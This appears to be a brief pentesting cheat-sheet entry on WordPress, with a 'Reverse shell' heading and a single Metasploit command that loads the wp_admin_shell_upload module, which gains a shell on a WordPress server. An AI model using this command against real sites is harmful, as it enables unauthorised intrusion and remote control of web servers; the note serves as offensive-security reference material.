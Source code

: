 # Wordpress

> Shahrukh Tramboo | March 18th, 2022

--------------------------------------

# Reverse shell

```bash
msfconsole> use exploit/unix/webapp/wp_admin_shell_upload
```